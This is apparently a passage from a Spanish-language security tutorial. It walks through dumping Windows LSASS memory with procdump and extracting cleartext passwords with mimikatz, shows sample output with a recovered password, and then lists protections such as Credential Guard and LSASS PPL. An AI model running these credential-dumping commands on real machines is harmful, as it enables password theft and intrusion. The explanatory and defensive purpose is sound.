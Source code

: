 
### 🧪 Ejemplo completo: Volcado de LSASS y análisis

#### 🖥️ Escenario:

- PC con Windows 10.
- Usuario: `admin` (con privilegios).
- Herramientas: `procdump.exe` y `mimikatz`.

#### 🔧 Pasos:

1. Ejecutas:

```cmd
procdump -ma lsass.exe lsass.dmp
```

2. Abres `mimikatz`:

```cmd
mimikatz.exe
```

3. Ejecutas comandos en mimikatz:

```bash
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```

📌 Aparecen resultados como:

```
Username : gustavo
Domain   : PC-GUSTAVO
Password : Guss2024!
```

Ya tienes la contraseña en texto claro.

---

### 🔐 ¿Cómo protegerse?

1. **Evita cuentas con permisos de administrador innecesarios.**
2. **Usa Windows Defender Credential Guard.**
3. **Activa la protección del LSASS (PPL - Protected Process Light):**

```powershell
Set-ItemProperty -Path "HKLM\SYSTEM\CurrentControlSet\Control\Lsa" -Name "RunAsPPL" -Value 1
```

4. **Bloquea el uso de herramientas como mimikatz con antivirus/EPP.**
5. **Usa autenticación multifactor (MFA).**

---

### 🧠 Resumen
